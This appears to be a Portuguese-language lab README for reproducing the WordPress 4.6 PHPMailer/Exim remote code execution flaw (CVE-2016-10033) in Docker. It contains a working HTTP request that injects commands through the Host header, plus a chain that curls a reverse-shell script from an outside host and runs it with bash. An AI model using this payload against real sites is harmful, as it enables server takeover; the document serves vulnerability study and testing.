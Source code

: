 # Wordpress 4.6 Remote Code Execution Vulnerability (PwnScriptum)

## Link de referência

https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## Configuração do ambiente

```
docker-compose build
docker-compose up -d
```

Como a inicialização do Mysql precisa de um pouco de tempo, aguarde. Após a inicialização ser bem-sucedida, visite `http://your-ip:8080/`, defina o nome de usuário e a senha do administrador para usá-lo (o banco de dados é configurado e não atualizado automaticamente).

## Explorando

Envie o seguinte pacote e você verá que `/tmp/success` foi criado com sucesso:

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

Precisamos atender aos seguintes requisitos para explorar essa vulnerabilidade:

1. O comando executado não pode conter alguns caracteres especiais, como `:`, `'`,`"`, etc.
2. O comando será convertido em letras minúsculas
3. O comando precisa usar um caminho absoluto
4. Precisa conhecer um nome de usuário existente

Para resolver esses problemas, o autor da vulnerabilidade criou $`substr{0}{1}{$spool_directory}}` em vez de `/`, usando `${substr{10}{1}{$tod_log}}` método de substituição de espaços.

No entanto, ainda há muitos caracteres que não podem ser usados. Portanto, precisamos colocar o comando no site de terceiros e baixá-lo para o diretório `/tmp` por `curl -o /tmp/rce example.com/shell.sh`.

Portanto, o processo de expliot é o seguinte:

- Escreva o exp do shell reverso e coloque-o em um site. O exp tem os seguintes requisitos:
  - todas as letras maiúsculas do URL serão convertidas em minúsculas, portanto, o caminho do arquivo não deve conter letras maiúsculas.
  - O acesso a esta página não pode ser redirecionado porque o parâmetro para seguir redirecionamento é `-L` (maiúsculas).
- Junte o comando`/usr/bin/curl -o/tmp/rce example.com/shell.sh`and`/bin/bash /tmp/rce`.
- Converta os espaços e `/` no comando para `${substr{10}{1}{$tod_log}}` e `${substr{0}{1}{$spool_directory}}`.
- Produza o cabeçalho HTTP Host:`target(any -froot@localhost -be ${run{command}} null)`.
- Envie esses dois pacotes em ordem.

Aqui está [exploit.py](exploit.py)，alterar `target` para seu site de destino，alterar `user` para um nome de usuário existente，alterar `shell_url` para seu site de carga útil.

Execute para obter o shell:

![](1.png)
